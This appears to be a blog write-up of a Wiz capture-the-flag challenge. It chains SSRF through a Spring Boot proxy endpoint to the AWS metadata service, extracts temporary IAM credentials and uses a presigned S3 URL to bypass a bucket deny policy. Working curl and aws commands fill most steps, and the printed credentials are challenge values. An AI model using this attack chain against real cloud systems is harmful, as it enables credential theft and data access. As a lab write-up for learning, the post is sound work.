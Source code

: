 ```yaml
---
layout: post
title: "Wiz CTF June 2025: Perimeter Leak - A SSRF & AWS Credential Escalation"
date: 2025-07-10
categories: [ctf, security]
tags: [ctf, security, ssrf, aws, cloud-security, pentesting]
excerpt: "Exploiting Server-Side Request Forgery (SSRF) through Spring Boot Actuator to access AWS services, bypass data perimeter controls, and extract protected files using presigned URLs."
---
```


## Challenge Overview

In this Wiz CTF challenge, I exploited a Server-Side Request Forgery (SSRF) vulnerability via the `/proxy?url=` endpoint in a Spring Boot Actuator application. This allowed me to make internal requests to AWS services, access the Instance Metadata Service (IMDSv2), and ultimately bypass a data perimeter to retrieve a protected flag.

## Vulnerability Exploited

**Server-Side Request Forgery (SSRF)** combined with:
- AWS Instance Metadata Service (IMDSv2) access
- Misconfigured S3 bucket policies
- Presigned URL generation

## Attack Steps

### 1. Endpoint Discovery

First, I mapped the available endpoints using Spring Boot Actuator:

```bash
curl -u ctf:88sPVWyC2P3p https://challenge01.cloud-champions.com/actuator/mappings
```

This revealed the vulnerable `/proxy` endpoint:
```json
"patterns": [ "/proxy" ],
"params": [ { "name": "url" } ],
"handler": "challenge.Application#proxy(String)"
```

### 2. AWS Metadata Access

Next, I exploited the SSRF to access the AWS Instance Metadata Service:

```bash
# Get metadata token
curl -u ctf:88sPVWyC2P3p \
  -X PUT \
  "https://challenge01.cloud-champions.com/proxy?url=http://169.254.169.254/latest/api/token" \
  -H "X-aws-ec2-metadata-token-ttl-seconds: 21600"
```

```bash
# Retrieve IAM role name
curl -u ctf:88sPVWyC2P3p \
  "https://challenge01.cloud-champions.com/proxy?url=http://169.254.169.254/latest/meta-data/iam/security-credentials/" \
  -H "X-aws-ec2-metadata-token: AQAEABCrJRHxImsxH1JVhUFrWPUuZSFBVBq6ShBgOv8IpfjYeeNY1g=="
```

Result: `challenge01-5592368`

### 3. AWS Credentials Extraction

Using the role name, I extracted temporary AWS credentials:

```bash
curl -u ctf:88sPVWyC2P3p \
  "https://challenge01.cloud-champions.com/proxy?url=http://169.254.169.254/latest/meta-data/iam/security-credentials/challenge01-5592368" \
  -H "X-aws-ec2-metadata-token: AQAEABCrJRHxImsxH1JVhUFrWPUuZSFBVBq6ShBgOv8IpfjYeeNY1g=="
```

This returned temporary AWS credentials including:
- Access Key ID: `ASIARK7LBOHXDFXXHGYE`
- Secret Access Key: `HtRUNKtijoKBAcec9fi0d5JGD8OG2fnjLG4lYSnp`
- Session Token: `[truncated for brevity]`

### 4. S3 Bucket Exploration

With the credentials, I explored the S3 bucket:

```bash
aws s3 ls s3://challenge01-470f711 --profile temp-creds
# Result: PRE private/ and hello.txt

aws s3 ls s3://challenge01-470f711/private/ --profile temp-creds
# Result: flag.txt
```

### 5. Bypass Attempt #1: Direct Access (Failed)

Direct access to the flag was blocked by bucket policy:

```bash
aws s3 cp s3://challenge01-470f711/private/flag.txt ./ --profile temp-creds
# Result: fatal error: An error occurred (403) when calling the HeadObject operation: Forbidden
```

### 6. Bypass Technique: Presigned URL + SSRF

I generated a presigned URL for the protected file:

```bash
aws s3 presign s3://challenge01-470f711/private/flag.txt --profile temp-creds
```

Then used the SSRF vulnerability to access the presigned URL through the vulnerable proxy endpoint:

```bash
curl -u ctf:88sPVWyC2P3p \
  "https://challenge01.cloud-champions.com/proxy?url=https%3A%2F%2Fchallenge01-470f711.s3.amazonaws.com%2Fprivate%2Fflag.txt%3F[URL-encoded-presigned-parameters]"
```

## Key Takeaways

This challenge demonstrated a sophisticated attack chain combining:

1. **SSRF Discovery**: Finding the vulnerable proxy endpoint through actuator mappings
2. **Cloud Metadata Abuse**: Leveraging IMDSv2 to extract AWS credentials
3. **Policy Bypass**: Using presigned URLs to circumvent bucket-level deny policies
4. **Request Routing**: Using the original SSRF vulnerability to make the presigned request appear to come from the authorized backend server

The attack succeeded because:
- The proxy endpoint had no URL filtering
- IMDSv2 was accessible from the application
- The S3 bucket policy only denied direct external access, not requests from the backend server
- Presigned URLs were generated with the backend's legitimate credentials

This highlights the importance of:
- Strict input validation on proxy endpoints
- Proper IMDSv2 security configurations
- Comprehensive S3 bucket policies that account for different attack vectors
- Network segmentation and least privilege access controls